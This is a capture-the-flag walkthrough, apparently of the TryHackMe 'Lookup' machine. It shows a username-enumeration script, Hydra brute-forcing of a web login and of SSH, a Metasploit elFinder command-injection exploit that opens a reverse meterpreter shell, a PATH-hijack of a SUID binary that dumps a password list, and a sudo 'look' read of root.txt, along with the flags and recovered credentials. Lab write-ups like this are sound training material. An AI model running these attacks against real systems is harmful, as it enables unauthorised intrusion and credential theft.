


# Lookup

First, we conduct an nmap scan:

```
nmap -Pn -sS -sV -p- 10.113.157.10 
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -Pn -sS -sV -p- 10.112.134.157                                                      
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-08 10:25 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 2.12% done; ETC: 10:26 (0:00:46 remaining)
Nmap scan report for lookup.thm (10.112.134.157)
Host is up (0.034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.35 seconds
```

We can see that port 80 is open. To access the website, we need to add a record to our /etc/hosts file. Once we visit the website, we are presented with a login panel.

 

First, we try logging in with random aaa:aaa credentials. We notice a "Wrong username or password" error message. Next, we try admin:password credentials and get a different message: "Wrong password. Please try again." Therefore, we can conclude that the application is vulnerable to username enumeration. We craft a simple Python script to exploit this:

```python
# enum-users.py
import requests

names_file = "/usr/share/wordlists/seclists/Usernames/Names/names.txt"
url = "http://lookup.thm/login.php"

with open(names_file, 'r') as f:
    names = f.readlines()
    for name in names:
        name = name.strip('\n')
        data = {"username": name, "password": "password"}
        response = requests.post(url, data=data)
        if "Wrong password" in response.text:
            print(f"User: {name}")
                                                
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ python enum-users.py
User: admin
User: jose
```

Now that we have a valid username, we can try conducting a dictionary attack using Hydra:

```
hydra -l jose -P ../rockyou.txt lookup.thm http-post-form "/login.php:username=jose&password=^PASS^:Wrong password. Please try again."
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ hydra -l jose -P ../rockyou.txt lookup.thm http-post-form "/login.php:username=jose&password=^PASS^:Wrong password. Please try again."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-11 09:49:24
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=jose&password=^PASS^:Wrong password. Please try again.
[80][http-post-form] host: lookup.thm   login: jose   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-05-11 09:50:11
```

We now have valid credentials (jose:password123) and can log in to the website. After logging in, we can see an elFinder application panel.



We check the software version by clicking the blue question mark icon. The version is 2.1.47. Next, we check for possible exploits:

```
searchsploit elFinder
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit elFinder
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
elFinder 2 - Remote Command Execution (via File Creation)                         | php/webapps/36925.py
elFinder 2.1.47 - 'PHP connector' Command Injection                               | php/webapps/46481.py
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)       | php/remote/46539.rb
elFinder Web file manager Version - 2.1.53 Remote Command Execution               | php/webapps/51864.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

We found a Metasploit exploit, so we will proceed to use it.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo msfconsole
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Metasploit tip: Start commands with a space to avoid saving them to history
                                                  
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.4.69-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 431 post       ]
+ -- --=[ 1672 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search elfinder

Matching Modules
================

   #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                               ---------------  ----       -----  -----------
   0  exploit/multi/http/builderengine_upload_exec                       2016-09-18       excellent  Yes    BuilderEngine Arbitrary File Upload Vulnerability and execution
   1  exploit/unix/webapp/tikiwiki_upload_exec                           2016-07-11       excellent  Yes    Tiki Wiki Unauthenticated File Upload Vulnerability
   2  exploit/multi/http/wp_file_manager_rce                             2020-09-09       normal     Yes    WordPress File Manager Unauthenticated Remote Code Execution
   3  exploit/linux/http/elfinder_archive_cmd_injection                  2021-06-13       excellent  Yes    elFinder Archive Command Injection
   4  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection


Interact with a module by name or index. For example info 4, use 4 or use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection

msf6 > use 4
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > show options

Module options (exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5, socks5h, http, sapni,
                                         socks4
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /elFinder/       yes       The base path to elFinder
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.135.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set RHOSTS files.lookup.thm
RHOSTS => files.lookup.thm
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LHOST tun0
LHOST => 192.168.204.155
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run
[*] Started reverse TCP handler on 192.168.204.155:4444 
[*] Uploading payload 'PFZ2hm4.jpg;echo 6370202e2e2f66696c65732f50465a32686d342e6a70672a6563686f2a202e544d4f704665386e2e706870 |xxd -r -p |sh& #.jpg' (1945 bytes)
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/elFinder/php/.TMOpFe8n.php) ...
[*] Sending stage (40004 bytes) to 10.114.136.139
[+] Deleted .TMOpFe8n.php
[*] Meterpreter session 1 opened (192.168.204.155:4444 -> 10.114.136.139:44384) at 2026-05-13 06:32:47 -0400
[*] No reply
[*] Removing uploaded file ...
[+] Deleted uploaded file

meterpreter > 
```

We can now spawn a shell on the target system using the meterpreter's "shell" command.

```
meterpreter > shell
Process 4127 created.
Channel 0 created.
```

Next we upgrade our spawned shell.

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

We can see that we cannot open user.txt file with the flag yet, but we spotted .passwords file in "think" user's home directory.

```
<var/www/files.lookup.thm/public_html/elFinder/php$ cd /home
cd /home
www-data@ip-10-113-167-167:/home$ ls
ls
ssm-user  think  ubuntu
www-data@ip-10-113-167-167:/home$ cd think
cd think
www-data@ip-10-113-167-167:/home/think$ ls
ls
user.txt
www-data@ip-10-113-167-167:/home/think$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@ip-10-113-167-167:/home/think$ ls -a
ls -a
.   .bash_history  .bashrc  .gnupg      .profile  .viminfo
..  .bash_logout   .cache   .passwords  .ssh      user.txt
www-data@ip-10-113-167-167:/home/think$ cat .passwords
cat .passwords
cat: .passwords: Permission denied
www-data@ip-10-113-167-167:/home/think$ 
```

After searching for binaries with the SETUID set, we encounter suspicious "pwm" binary.

```
www-data@ip-10-113-167-167:/home/think$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/snap/snapd/19457/usr/lib/snapd/snap-confine
/snap/core20/1950/usr/bin/chfn
/snap/core20/1950/usr/bin/chsh
/snap/core20/1950/usr/bin/gpasswd
/snap/core20/1950/usr/bin/mount
/snap/core20/1950/usr/bin/newgrp
/snap/core20/1950/usr/bin/passwd
/snap/core20/1950/usr/bin/su
/snap/core20/1950/usr/bin/sudo
/snap/core20/1950/usr/bin/umount
/snap/core20/1950/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1950/usr/lib/openssh/ssh-keysign
/snap/core20/1974/usr/bin/chfn
/snap/core20/1974/usr/bin/chsh
/snap/core20/1974/usr/bin/gpasswd
/snap/core20/1974/usr/bin/mount
/snap/core20/1974/usr/bin/newgrp
/snap/core20/1974/usr/bin/passwd
/snap/core20/1974/usr/bin/su
/snap/core20/1974/usr/bin/sudo
/snap/core20/1974/usr/bin/umount
/snap/core20/1974/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1974/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pwm
/usr/bin/at
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
www-data@ip-10-113-167-167:/home/think$ pwm
pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

We can see that pwm binary uses "id" binary during it's execution, and it's trying to read .passwords file from user's home directory. We can abuse that, by creating our own "id", and prepending it's location to the $PATH environmental variable.

```
www-data@ip-10-113-167-167:/home/think$ echo '#!/bin/bash' > /tmp/id
www-data@ip-10-113-167-167:/home/think$ echo 'echo "uid=33(think) gid=33(think) groups=33(think)"' >> /tmp/id
www-data@ip-10-113-167-167:/home/think$ cat /tmp/id
#!/bin/bash
echo "uid=33(think) gid=33(think) groups=33(think)"
www-data@ip-10-113-167-167:/home/think$ chmod +x /tmp/id
www-data@ip-10-113-167-167:/home/think$ export PATH=/tmp:$PATH
```

Now we can use "pwm" command again, and we get a list of passwords.

```
www-data@ip-10-113-167-167:/home/think$ pwm
pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0990
jose0986$
jose098130443
jose0981
jose0924
jose0923
jose0921
thepassword
jose(1993)
jose'sbabygurl
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
jose.leonardo100
jose.leas.30
jose.ivan
jose.i22
jose.hm
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171
```

Once we have our passwords list we can try launching an dictionary attack against the think user over the SSH:

```
hydra -l think -P passwords.txt ssh://lookup.thm
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ hydra -l think -P passwords.txt ssh://lookup.thm
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-16 11:39:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://lookup.thm:22/
[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-05-16 11:39:48
```

We successfully found the password. Now we can log into the machine and read the user.txt flag.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh think@lookup.thm            
The authenticity of host 'lookup.thm (10.113.167.167)' can't be established.
ED25519 key fingerprint is SHA256:zSq0Koq3egpbKjdW2C2ekCScXZps8t0AbUvukxWGVhw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'lookup.thm' (ED25519) to the list of known hosts.
think@lookup.thm's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 16 May 2026 03:41:06 PM UTC

  System load:  0.02              Processes:             124
  Usage of /:   63.4% of 9.75GB   Users logged in:       0
  Memory usage: 25%               IPv4 address for ens5: 10.113.167.167
  Swap usage:   0%

 * Ubuntu 20.04 LTS Focal Fossa will reach its end of standard support on 31 May
 
   For more details see:
   https://ubuntu.com/20-04

Expanded Security Maintenance for Infrastructure is not enabled.

221 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Sun May 12 12:07:25 2024 from 192.168.14.1
think@ip-10-113-167-167:~$ whoami
think
think@ip-10-113-167-167:~$ ls
user.txt
think@ip-10-113-167-167:~$ cat user.txt
38375fb4dd8baa2b2039ac03d92b820e
```

Now we want to read the root.txt flag. We can see that we are able to execute "look" command with the root priviliges. That's how we can access root.txt file:

```
think@ip-10-113-167-167:/$ sudo -l
Matching Defaults entries for think on ip-10-113-167-167:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-113-167-167:
    (ALL) /usr/bin/look
think@ip-10-113-167-167:/$ sudo look '' /root/root.txt
5a285a9f257e45c68bb6c9f9f57d18e8
```